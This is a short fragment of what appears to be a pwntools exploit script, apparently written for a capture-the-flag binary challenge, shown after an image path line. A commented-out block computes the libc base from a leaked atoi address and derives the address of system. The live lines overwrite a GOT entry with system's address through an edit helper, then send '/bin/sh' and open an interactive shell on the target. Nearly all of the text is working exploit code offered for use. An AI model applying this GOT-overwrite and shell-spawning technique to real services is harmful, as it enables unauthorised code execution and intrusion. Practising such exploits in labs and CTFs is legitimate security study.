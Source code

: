 ```python
'''
libc_base=ad-libc.sym["atoi"]
sys_ad=libc_base+libc.sym["system"]
log.info("atoi_got: "+hex(elf.got["atoi"]))
log.info("sys_ad: "+hex(sys_ad))
'''
edit(3,p32(sys_ad))

p.sendline("/bin/sh\x00")
p.interactive()
```
